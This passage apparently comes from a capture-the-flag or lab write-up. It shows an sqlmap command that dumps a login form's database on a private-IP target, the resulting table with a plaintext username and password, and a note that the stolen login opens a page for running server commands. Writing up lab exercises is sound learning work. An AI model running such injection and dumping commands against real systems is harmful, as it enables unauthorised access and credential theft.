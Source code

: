 ![](assets/2024-10-02-14-10-03.png)

```
sqlmap -u http://10.10.18.5/administrator.php -dump --form
```

RESULTS:

```
Database: users
Table: users
[1 entry]
+------------+----------+
| password   | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+
```

We found out that the form is SQLI vulnerable and we got the credentials!

It seems like we got a new page where we can run commands on the server!
![](assets/2024-10-02-14-28-54.png)